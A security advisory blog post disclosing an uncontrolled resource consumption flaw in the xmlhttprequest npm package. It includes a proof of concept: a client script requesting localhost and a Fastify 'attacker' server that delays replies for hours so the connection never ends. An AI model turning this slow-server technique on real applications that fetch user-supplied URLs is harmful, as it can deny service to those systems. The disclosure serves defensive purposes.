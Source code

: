 ```yaml
---
title: Disclosing uncontrolled resource consumption in xmlhttprequest library
description: >-
  proof-of-concept showing a denial of service vulnerability in a Node.js web server if it uses the xmlhttprequest library to make outgoing HTTP requests
date: '2023-04-16'
pubDate: '2023-04-16'
categories: []
keywords: []
draft: false
tags: ["security", "vulnerability", "advisory", "cve", "xmlhttprequest", "denial of service", "dos", "uncontrolled resource consumption"]
slug: disclosing-uncontrolled-resource-consumption-in-xmlhttprequest-library
image: ~/assets/images/blog/photo-1553987084-4c3aebbc686e.jpg
---
```


## What is the `xmlhttprequest` npm package?

The `xmlhttprequest` npm package is an open-source library for Node.js server-side projects to use a familiar browser-like HTTP client. It is technically a wrapper around the `http` and `https` modules in Node.js.

Its purpose is to provide a familiar API to Node.js developers who are used to using the `XMLHttpRequest` object in the browser. These days, most developers use the `fetch` API in the browser, but `xmlhttprequest` is still a popular library for Node.js developers.

## Disclosing a vulnerability in `xmlhttprequest`

In August 2022, I discovered several security issues with the library and with the help of my Snyk security analysts colleagues I reached out to the maintainer of the `xmlhttprequest` npm package to report a vulnerability in the library. The maintainer was responsive but did not consider this security report as an actual vulnerability to be recognized or fixed.

I then decided to disclose the vulnerability publicly and share my findings here.

## Uncontrolled resource consumption in xmlhttprequest@1.8.0

Observations:
- It was last published 7 years ago in 2015 with version 1.8.0
- It has 1,814,290 weekly downloads from npm

`xmlhttprequest` code and registry resources: 
 * [Project's GitHub source code](https://github.com/driverdan/node-XMLHttpRequest)
 * [Project's npm package](https://www.npmjs.com/package/xmlhttprequest)

### Background on exploitation

The HTTP client library fails to implement any sort of timeout controls for outgoing requests,
and as such it is possible for attackers who control the URL provided to `xmlhttprequest` to
set the server to delay requests for a considerable long time (infinity) through which the 
HTTP connection will hang and never terminate.

If attackers are able to force an application to perform several such outgoing requests then
they could saturate I/O resources on the running Node.js runtime.

This vulnerability is classified as a [CWE-400](https://cwe.mitre.org/data/definitions/400.html) uncontrolled resource consumption issue.

### Proof of Concept exploit

Install these two npm packages:
1. Install `xmlhttprequest@1.8.0` which is the latest version of this package. We will use it for a client web application.
2. Install `fastify` to be used as the server that is in control of the attacker.

For the vulnerable `xmlhttprequest` library, create a `client.js` file as follows:

```js
var XMLHttpRequest = require("xmlhttprequest").XMLHttpRequest;
var xhr = new XMLHttpRequest();

xhr.open("GET", "http://localhost:3001/hello");
xhr.send();
```

For our attacker-controlled web server, create the following `server.js`:

```js
const util = require('util')
const fastify = require('fastify')({ logger: true })

const delay = util.promisify(setTimeout)

fastify.get('/hello', async (request, reply) => {
  return delay(11110000).then(() => reply.redirect('/two'))
})

const start = async () => {
  try {
    await fastify.listen({ port: 3001 })
  } catch (err) {
    fastify.log.error(err)
    process.exit(1)
  }
}
start()
```

Run the server and when it's ready to accept new connections, run the `client.js` code
which sends a request.

Observe that the request never ends (timed at 29 minutes before I killed it on my local
environment).
